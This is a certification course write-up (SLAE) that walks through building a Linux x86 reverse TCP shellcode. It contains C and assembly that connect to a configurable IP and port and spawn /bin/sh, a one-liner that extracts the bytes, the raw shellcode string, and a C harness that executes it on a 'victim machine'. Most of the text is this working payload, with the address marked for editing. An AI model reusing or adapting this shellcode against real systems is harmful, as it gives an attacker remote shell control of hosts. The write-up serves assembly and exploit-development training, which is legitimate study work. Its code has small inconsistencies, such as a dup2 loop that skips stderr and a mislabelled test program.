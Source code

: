 # Assignment 2

## What to do
- Create a Shell_Reverse_TCP shellcode
    - Reverse connects to configured IP and Port
    - Execs shell on successful connection
- IP and port should be easily configurable

## How to do it
The path we can follow towards creating a shell_reverse_tcp shellcode is to first create a shell_reverse_tcp in C and transform C code into Assembly.

The following code was used as a basis:
```c
#include<stdio.h>
#include<sys/types.h>
#include<sys/socket.h>
#include<netinet/in.h>
#include<stdint.h>

int main()
{
        uint32_t sockid;                        //socket descriptor
        struct sockaddr_in srv_addr;    //client address
        uint32_t i;                             //counter

        srv_addr.sin_family = AF_INET;
        srv_addr.sin_port = htons(5555);
        srv_addr.sin_addr.s_addr = inet_addr("192.168.191.131");

        //create socket
        sockid = socket(PF_INET, SOCK_STREAM, 0);

        //connect socket
        connect(sockid, (struct sockaddr *)&srv_addr, sizeof(srv_addr));

        //duplicate file descriptors for STDIN, STDOUT, STDERROR
        for (i=0; i<2; i++)
                dup2(sockid, i);

        //execute /bin/sh
        execve("/bin/sh", NULL, NULL);
        close(sockid);

        return 0;

}
```
The code above can be found in our _Assignment #2_ repo and is named as _reverse.c_

You can compile this code using `gcc -o reverse reverse.c`

Again, we follow the same process of transforming C code into Assembly.

This time we need system calls like:

- socketcall
- connect
- dup2
- execve

The actual Assembly code follows:

```assembly
;
; Purpose: SLAE Course
; Student ID: SLAE-998
;

global _start

section .text
_start:

	; socket
	xor eax, eax	; clear eax
	mov ebx, eax	; clear ebx
	push eax	; push 0 IPPROTO_IP
	mov al, 0x66	; socketcall
	mov bl, 0x1	; sys_socket
	push byte 0x1	; push 1 SOCK_STREAM
	push byte 0x2	; push 2 AF_INET
	mov ecx, esp	; ecx points to memory
	int 0x80	; make the sys call

	; connect
	mov edx, eax	; sockfd
	xor eax, eax	; clear eax
	mov ebx, eax	; clear ebx
	mov al, 0x66	; xor eax,eax + socketcall
	mov bl, 0x3	; sys_connect

	push dword 0x83bfa8c0	; ip address 192.168.191.131 - 	# CHANGE ME
	push word 0xb315	; port 5555		     -	# CHANGE ME
	push word 0x2		; AF_INET = PF_INET = 2
	mov ecx, esp		; pointer to struct - second argument

	push 0x10	; addrlen = 16
	push ecx	; pointer to struct
	push edx	; sockfd

	mov ecx, esp	; pointer to arguments
	int 0x80	; make the sys call

	; dup2
	pop ebx		; sockfd to ebx
	xor ecx, ecx	; clear counter
	mov cl, 0x2	; initialize counter

	loop:
		mov al, 0x3f	; sys call dup2
		int 0x80	; make the sys call
		dec cl		; decrement counter
		jns loop

	; execve
	xor ecx, ecx	; clear register - second argument
	mul ecx		; clear eax, edx

	push eax		; null after string
	push dword 0x68732f6e	; n/sh
	push dword 0x69622f2f	; //bi

	mov ebx, esp	; point to //bin/sh in stack

	mov al, 0xb	; execve sys call
	int 0x80	; make sys call
```

The Assembly code can be found in _Assignment #1_ repo named as _shell.asm_

In this example port 5555 was used as the connection port and IP 192.168.191.131. Port 5555 translates to 0x15b3 in hex. Since our system follows the little-endian architecture, the port number has to be loaded in the memory in reverse order. The same goes for the IP address.

In order to change the connection port and IP it is suggested to choose the new port number and IP address convert them into hex, reverse the byte order and compile the program again.

Both the port number and the IP address are tagged in the Assmbly code (_# CHANGE ME_) so they can be easily spotted.

The Assembly code can be compiled using the following commands respectively:
```zsh
$ nasm -f elf -o shell.o shell.asm
$ ld -o shell shell.o
```

Next step is to extract the actual shellcode from the elf file using this one-liner command:
```zsh
$ objdump -d ./shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```
found in [commandlinefu.com](http://www.commandlinefu.com)

The extracted bytes are:
```
"\x31\xc0\x89\xc3\x50\xb0\x66\xb3\x01\x6a\x01\x6a\x02\x89\xe1"
"\xcd\x80\x89\xc2\x31\xc0\x89\xc3\xb0\x66\xb3\x03\x68\xc0\xa8"
"\xbf\x83\x66\x68\x15\xb3\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52"
"\x89\xe1\xcd\x80\x5b\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\xfe\xc9"
"\x79\xf8\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69"
"\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80"
```

The following code can be used to create the bind_shell_tcp elf and test the produced shellcode. The shellcode must be placed in the shellcode buffer:
```c
#include<stdio.h>
#include<string.h>

unsigned char shellcode[] = \
"\x31\xc0\x89\xc3\x50\xb0\x66\xb3\x01\x6a\x01\x6a\x02\x89\xe1"
"\xcd\x80\x89\xc2\x31\xc0\x89\xc3\xb0\x66\xb3\x03\x68\xc0\xa8"
"\xbf\x83\x66\x68\x15\xb3\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52"
"\x89\xe1\xcd\x80\x5b\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\xfe\xc9"
"\x79\xf8\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69"
"\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80";

main()
{

        printf("Shellcode Length:  %d\n", strlen(shellcode));

        int (*ret)() = (int(*)())shellcode;

        ret();

}
```

The code above can be found in _Assignement #1_ repo and is named as _shellcode.c_

The shellcode can be compiled using `gcc -fno-stack-protector -z execstack shellcode.c -o shellcode`

In order to get a shell a listener needs to be set up on the attacking machine, on the port specified in the shellcode (here this port is 5555)

By running the produced elf on the victim machine you get a working reverse_tcp_shell connection to the attacking machine!

## Statement
This page has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student-ID: SLAE-998
